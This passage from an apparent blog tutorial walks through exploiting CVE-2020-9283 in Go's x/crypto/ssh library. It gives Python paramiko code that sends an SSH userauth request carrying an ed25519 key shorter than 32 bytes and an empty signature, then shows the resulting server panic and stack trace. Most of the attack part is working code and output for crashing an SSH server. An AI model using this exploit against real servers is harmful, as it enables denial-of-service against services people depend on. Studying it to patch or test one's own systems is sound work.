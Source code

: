 That's pretty straightforward. We know that ed25519 keys are expected to have a `key` that is 32 bytes long. For this attack, we simply want to ensure that `key` is less than 32 bytes long. We can do that with the following Python:

{% highlight python %}
key = paramiko.Message()
key.add_string('ssh-ed25519')
key.add_string('key-that-is-too-short')
m.add_string(key.__str__())
{% endhighlight %}

Take notice that `key-that-is-too-short` is 21 bytes long and 21 < 32 which meets our requirement for the key being too short.

The final part of constructing our payload is to add the `signature` required at the end of the message. Luckily for , we're trying to get the server to `panic` while verifying the signature so we don't actually need the signature to validate. In fact, we can even put in an empty string if we want and that's exactly what we're going to do:

{% highlight python %}
sig = paramiko.Message()
sig.add_string('ssh-ed25519')
sig.add_string('')
m.add_string(sig.__str__())
{% endhighlight %}

Now that we've composed our completed `SSH_MSG_USERAUTH_REQUEST` message we can go ahead and send it to trigger the `panic` and crash the server:

{% highlight python %}
t._send_message(m)
{% endhighlight %}

# Did it work?

At this point, we can run back over and check our vulnerable server and see if our attack worked.

```
panic: ed25519: bad public key length: 21

goroutine 64 [running]:
crypto/ed25519.Verify(0xc000026ccf, 0x15, 0x2c, 0xc00000b600, 0x88, 0x100, 0xc000026cf7, 0x0, 0x0, 0x20)
        /usr/local/go/src/crypto/ed25519/ed25519.go:205 +0x477
golang.org/x/crypto/ed25519.Verify(...)
        /Users/User/dev/go/pkg/mod/golang.org/x/crypto@v0.0.0-20200219234226-1ad67e1f0ef4/ed25519/ed25519_go113.go:72
golang.org/x/crypto/ssh.ed25519PublicKey.Verify(0xc000026ccf, 0x15, 0x2c, 0xc00000b600, 0x88, 0x100, 0xc000072f80, 0x28, 0x3f)
        /Users/User/dev/go/pkg/mod/golang.org/x/crypto@v0.0.0-20200219234226-1ad67e1f0ef4/ssh/keys.go:587 +0x19d
golang.org/x/crypto/ssh.(*connection).serverAuthenticate(0xc000139500, 0xc00010b6c0, 0x11, 0x40, 0x0)
        /Users/User/dev/go/pkg/mod/golang.org/x/crypto@v0.0.0-20200219234226-1ad67e1f0ef4/ssh/server.go:567 +0x1624
golang.org/x/crypto/ssh.(*connection).serverHandshake(0xc000139500, 0xc00010b6c0, 0x12185fb, 0x1b, 0x13919c0)
        /Users/User/dev/go/pkg/mod/golang.org/x/crypto@v0.0.0-20200219234226-1ad67e1f0ef4/ssh/server.go:277 +0x5e7
golang.org/x/crypto/ssh.NewServerConn(0x12531e0, 0xc0000100c8, 0xc00010b040, 0x0, 0x0, 0x0, 0x0, 0x0)
        /Users/User/dev/go/pkg/mod/golang.org/x/crypto@v0.0.0-20200219234226-1ad67e1f0ef4/ssh/server.go:206 +0x18e
main.handleConnection(0x12531e0, 0xc0000100c8, 0xc00010b040)
        /Users/User/dev/exploits/CVE-2020-9283/target-vulnerable/main.go:42 +0x6a
created by main.main
```